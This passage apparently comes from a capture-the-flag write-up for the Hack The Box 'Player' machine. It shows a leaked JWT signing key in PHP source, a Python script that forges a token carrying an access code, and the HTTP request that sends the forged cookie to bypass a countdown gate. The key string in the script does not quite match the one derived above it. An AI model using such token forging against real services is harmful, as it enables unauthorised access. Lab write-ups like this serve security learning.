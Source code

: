     #In source code the key is getting **strtr** and decoded before being used with JWT so useing the same code to echo the key
    <?php
    $key = '_S0_R@nd0m_P@ss_';
    echo strtr($key, '-_', '+/');
    ?>

    #The key base64 Encoded
    /S0/R@nd0m/P@ss/

Second, an access_code.

    0E76658526655756207688271159624026011393

Third, a hidden directory that what we will get redirected to with the right JWT token.

    7F2xxxxxxxxxxxxx/

# Bypass Release Count down

## JWT Forging

So right now I will create a new JWT with the access_code from the source code to bypass the counter.

To do that there is a lot of ways. the easiest is to use this website.

[JWT.IO](https://jwt.io/)

    import jwt
    from base64 import b64decode

    key = b64decode("/S0/Rnd0m/Pssw==")
    encoded_jwt = jwt.encode({"project": "PlayBuff", "access_code": "0E76658526655756207688271159624026011393"}, key, algorithm='HS256')
    print(encoded_jwt)

The new JWT

    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwcm9qZWN0IjoiUGxheUJ1ZmYiLCJhY2Nlc3NfY29kZSI6IjBFNzY2NTg1MjY2NTU3NTYyMDc2ODgyNzExNTk2MjQwMjYwMTEzOTMifQ.VXuTKqw__J4YgcgtOdNDgsLgrFjhN1_WwspYNf_FjyE

    GET /launcher/dee8dc8a47256c64630d803a4c40786c.php HTTP/1.1
    Host: player.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://player.htb/launcher/
    Cookie: access=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwcm9qZWN0IjoiUGxheUJ1ZmYiLCJhY2Nlc3NfY29kZSI6IjBFNzY2NTg1MjY2NTU3NTYyMDc2ODgyNzExNTk2MjQwMjYwMTEzOTMifQ.VXuTKqw__J4YgcgtOdNDgsLgrFjhN1_WwspYNf_FjyE
    X-Requested-With: XMLHttpRequest
    Connection: close
    Content-Length: 2
